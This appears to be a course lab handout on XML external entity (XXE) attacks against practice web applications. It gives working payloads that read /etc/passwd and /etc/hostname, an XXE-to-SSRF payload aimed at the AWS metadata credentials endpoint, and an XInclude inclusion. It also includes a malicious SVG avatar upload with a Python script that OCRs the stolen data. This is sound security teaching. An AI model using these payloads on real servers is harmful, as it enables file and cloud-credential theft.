





When an application uses an XML file to pass information from client to server, it gives an adversary the ability to leverage the XML format to include malicious content. XML eXternal Entities (XXE) is a mechanism for XML files to include content from other sources, including files in the file system and files over the network via their URLs. The following exercises will have you leverage this vulnerability to gain unauthorized access to the server running a web application. For each exercise, show a screenshot of its completion with your OdinID
To begin with, visit a product's page and bring up Developer Tools. Click on the "Check stock" button and examine the request that is submitted. As part of the POST, view the payload that is sent and its response


Similar to the SSRF levels, the payload specifies the storeId and productId of the item that is being checked. A Python script for performing the function is shown below. Fill in the fields based on the request you have examined to ensure you get the same results.
# <FMI> (Fill Me In) denotes a value you will need to modify
stock_url = '<FMI>'
xml_post_data = '<FMI>'
resp = s.post(stock_url,data=xml_post_data)
print(resp.text)
A basic XXE attack involves retrieving the contents of a sensitive file from the server. If unsanitized XML input is accepted from the client, then the client can use the format to include arbitrary files such /etc/passwd as shown below. In this XML file, an entity called xxe is defined as part of the document definition foo. It is set to the contents of /etc/passwd. Then, within the XML, the entity is instantiated, leading to the exfiltration of the file. Fill in the XML below with the missing part of the payload (<FMI>) and include it in your script.
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId> <FMI> </stockCheck>Submit the XML to solve the level.
XXE can not only force a server to include local files, it can also force a server to retrieve files from arbitrary web servers including those run within a company's protected infrastructure. Such attacks are known as server-side request forgery (SSRF) attacks. For example, the payload below can force the server to contact a sensitive server housed internally such as a cloud project's metadata.
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>For example, on AWS, one might attempt to retrieve the security credentials of the admin account via http://169.254.169.254/latest/meta-data/iam/security-credentials/admin.
Perform the SSRF attack to retrieve these credentials.
In previous exercises, the XXE injection occurs directly within an XML document that the server then returns. XXE, however, can occur anywhere within request processing, including during its error handling routines. Consider a server that attempts to process XML given to it by a client such as the one below. The XML code uses XInclude to specify a sensitive file on the server to include.
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/>
</foo>Assuming the /etc/passwd file is not valid XML, it will then cause an error in its handling. If the error messages from this processing are not properly sanitized, it is possible that the contents of the file are then emitted back to the client as an error message.
There are several common file formats that use the XML format for encoding. One such format is the Scalable Vector Graphics (SVG) image format. Below is an example of an SVG file. Change <FMI> to your OdinID and save it in a file in the filesystem with the .svg extension. Open the file in a web browser to view the image.
<?xml version="1.0" standalone="yes"?>
<svg width="128px" height="128px"
xmlns="http://www.w3.org/2000/svg"
xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
<text font-size="16" x="0" y="16">FMI</text>
</svg>
The level website implements a blog that allows users to post comments that also include an avatar they can upload. The avatar is in the SVG format, but upon upload, it is converted into a PNG (Portable Network Graphics) file for use on the site. Visit the site and view a blog post. Examine the form for submitting a comment below.
<form action="/post/comment" method="POST" enctype="multipart/form-data">
<input required type="hidden" name="csrf" value="0zuD...od">
<input required type="hidden" name="postId" value="5">
<label>Comment:</label>
<textarea required rows="12" cols="300" name="comment"></textarea>
<label>Name:</label>
<input required type="text" name="name">
<label>Avatar:</label>
<input type="file" name="avatar">
<label>Email:</label>
<input required type="email" name="email">
<label>Website:</label>
<input pattern="(http:|https:).+" type="text" name="website">
<button class="button" type="submit">Post Comment</button>
</form>Because the form allows file uploads, it uses the multipart/form-data encoding. The Python script below shows an example of posting to this form using the format. Modify it with the postId of the blog post you're on, your own PSU information, and the location of the SVG file created in the previous step to submit a comment using the avatar created.
post_url = f'https://{site}/post?postId=<FMI>'
resp = s.get(post_url)
soup = BeautifulSoup(resp.text,'html.parser')
csrf = soup.find('input', {'name':'csrf'}).get('value')
comment_url = f'https://{site}/post/comment'
multipart_form_data = {
'csrf' : (None, csrf),
'postId' : (None, '<FMI>'),
'comment' : (None, 'Nice blog. Be a shame if anything happened to it.'),
'name' : (None, 'Wu'),
'email' : (None, 'wuchang@pdx.edu'),
'website': (None, 'https://pdx.edu'),
'avatar' : ('avatar.svg', open('<FMI>.svg', 'rb'))
}
resp = s.post(comment_url, files=multipart_form_data)View the comment in the blog, right-click the avatar image, and open it in a new tab.

We can now craft our exploit. Consider the following malicious SVG image containing an XXE payload can cause sensitive data to be exfiltrated. In this case, the SVG file causes the XML parser on the server to include the hostname of the server that hosts it. It could easily have included /etc/passwd.
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px"
xmlns="http://www.w3.org/2000/svg"
xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
<text font-size="16" x="0" y="16">&xxe;</text>
</svg>Use the Python script to upload a comment that contains this SVG payload file as its avatar.
While we could simply view the avatar attached to the comment directly on the web site after uploading it to solve this level, that wouldn't be quite as fun as modifying the Python program to do so automatically. To do so, install tesseract-ocr and then the Python package interface to it pytesseract. On a Linux system, this can be done via the following:
sudo apt install tesseract-ocr
source env/bin/activate
pip install pytesseractConsider the Python snippet below that uses the Python Pillow (PIL) image processing package and the Python pytesseract optical character recognition package to automatically process the PNG version of the avatar on the site. Given the URL of the blog post the comment has been submitted to, the program uses a regular expression to search for embedded images that are PNG files and obtains their URLs. Assuming only one comment with an avatar has been submitted, it then downloads the image and uses PIL's Image class to read it in. The resulting image is then sent to pytesseract to extract the string that it contains (e.g. the exfiltrated hostname). Finally, we strip any trailing spaces if the tesseract package returns them.
from PIL import Image
import pytesseract
import re
from io import BytesIO
resp = s.get(post_url)
soup = BeautifulSoup(resp.text,'html.parser')
avatar_path = soup.find_all('img', src=re.compile(r'png$'))[0].get('src')
avatar_url = f'https://{site}{avatar_path}'
print(avatar_url)
# Use OCR package (Tesseract) to extract hostname
hostname = pytesseract.image_to_string(Image.open(BytesIO(requests.get(avatar_url).content)))
hostname = hostname.strip()
print(f'Exfiltrated hostname: {hostname}')Finally, given the hostname, the snippet below will submit it to the site to solve the level.
# Submit to solution URL
solution_url = f'https://{site}/submitSolution'
solution_data = {
'answer' : hostname
}
s.post(solution_url, data=solution_data)